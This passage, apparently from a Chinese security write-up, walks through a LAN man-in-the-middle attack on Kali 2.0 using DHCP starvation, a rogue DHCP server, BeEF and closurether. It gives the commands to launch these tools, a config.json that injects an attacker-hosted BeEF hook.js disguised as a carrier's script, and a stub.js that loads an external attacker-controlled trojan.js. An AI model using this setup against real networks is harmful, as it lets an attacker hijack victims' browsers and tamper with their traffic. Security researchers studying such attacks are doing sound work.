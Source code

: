 ![Alt text](http://static.wooyun.org//drops/20151028/20151028051305767521445433756867.png)

而替换的脚本为asset目录下的stub.js，stub.js注入外部js关键代码如下图：

![Alt text](http://static.wooyun.org//drops/20151028/20151028051310312421445433879893.png)

其中`www.etherdream.com/hack/trojan.js` 为我们可控的js，上例中该js的内容为

    
    
    alert('xss run: ' + location.href);
    

我们可以通过修改该脚本内容来实现不同的功能。

# 0x04 实战

* * *

此次实战在局域网中结合使用了dhcpstarv,isc-dhcp-server,beef以及closurether。攻击机使用了kali2.0。

**1.开启beef**
    
    
    root@kali:~# cd /usr/share/beef-xss/
    root@kali:/usr/share/beef-xss# ./beef
    

**2.配置closurether**

获取最新的缓存列表

    
    
    root@kali:~# cd /usr/local/lib/node_modules/closurether/tool/cache-sniffer
    root@kali:/usr/local/lib/node_modules/closurether/tool/cache-sniffer#  phantomjs sniffer.js
    

可以通过修改url.txt的内容来指定网站，此次测试过程中url中包含126以及360几个网站。 配置config.json文件如下:

    
    
    {
            "hacker_url": "http://192.168.1.108:3000/hook.js",
            "inject_url": "http://10086.cn/js10086/201306301200.js",
            "debug": false,
            "dump": false,
            "dumpPath": "./dump/"
    }
    

其中`hacker_url`为我们的js地址，此处为beef的js地址，`inject_url` 为伪装的js地址。

运行closurether：

    
    
    root@kali:~# closurether
    [SYS] local ip: 192.168.1.108
    [DNS] running 0.0.0.0:53
    [WEB] listening :::80
    [WEB] listening :::443
    